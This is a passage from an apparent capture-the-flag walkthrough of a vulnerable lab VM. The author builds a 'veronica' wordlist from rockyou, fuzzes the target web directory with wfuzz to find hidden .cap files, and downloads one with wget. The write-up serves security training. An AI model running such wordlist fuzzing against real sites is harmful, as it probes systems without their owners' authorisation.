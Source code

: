 lets reboot the vm

the ip still shows after a reboot so i continue to move on, the last post from the new page is interesting.

### .capture

the last post from `http://192.168.93.151/exschmenuating`

>OMg LOL LOL LOL!!!  What a twit - I can't believe she fell for it!!  I .captured the whole thing in this folder for later lulz.  I put "veronica" somewhere in the file name because I bet you a million dollars she uses her name as part of her passwords - if that's true, she rocks!

got me thinking, i decided to take all the `veronica` matching entries in the rockyou wordlist and then fuzz the web page for `.capture` `.pcap` and `.cap`


`root@kali:~/BM# cat /usr/share/wordlists/rockyou.txt | grep veronica >> veronica.txt`

and then fuzzing

```bash
root@kali:~/BM# wfuzz -c -w /root/BM/veronica.txt --sc 200 "http://192.168.93.151/exschmenuating/FUZZ.cap"
********************************************************
* Wfuzz 2.1.3 - The Web Bruteforcer                      *
********************************************************

Target: http://192.168.93.151/exschmenuating/FUZZ.cap
Total requests: 773

==================================================================
ID	Response   Lines      Word         Chars          Request
==================================================================

00716:  C=200    192 L	     722 W	   8700 Ch	  "012987veronica"
00721:  C=200     24 L	     162 W	   1080 Ch	  "#0104veronica"

Total time: 1.112895
Processed Requests: 773
Filtered Requests: 771
Requests/sec.: 694.5842

```

```bash
root@kali:~/BM# wget http://192.168.93.151/exschmenuating/012987veronica.cap
--2016-09-21 09:17:40--  http://192.168.93.151/exschmenuating/012987veronica.cap
Connecting to 192.168.93.151:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8700 (8.5K) [application/vnd.tcpdump.pcap]
Saving to: ‘012987veronica.cap’

012987veronica.cap                      100%[=============================================================================>]   8.50K  --.-KB/s    in 0s

2016-09-21 09:17:40 (146 MB/s) - ‘012987veronica.cap’ saved [8700/8700]

```
